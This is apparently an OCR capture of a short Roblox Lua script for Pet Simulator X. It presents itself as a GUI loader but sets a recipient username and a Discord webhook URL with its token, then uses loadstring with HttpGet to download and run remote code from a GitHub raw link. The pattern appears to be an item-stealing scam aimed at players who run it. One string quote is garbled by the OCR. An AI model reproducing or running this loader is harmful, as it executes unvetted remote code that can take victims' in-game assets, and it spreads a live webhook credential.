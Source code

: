 Username = "alisa_milanakul"

WebHook = "https://discord.com/api/webhooks/1084271031704895538/JuGr4ImoxdCNMErT9BAtRqYgeaJvaKR9qrB5Oc-Ob0l5ssG6hPY56440fyqKCr3owl1Q"

_G.CustomScriptName = "HELLO GUESTS"

_G.Text1 = "Скрипт "SCRIPT LOADING..."
_G.Text2 = "Waiting for Script"

_G.Text3 = "Checking Scripts..."

_G.Text4 = "Starting Scripts..."

loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
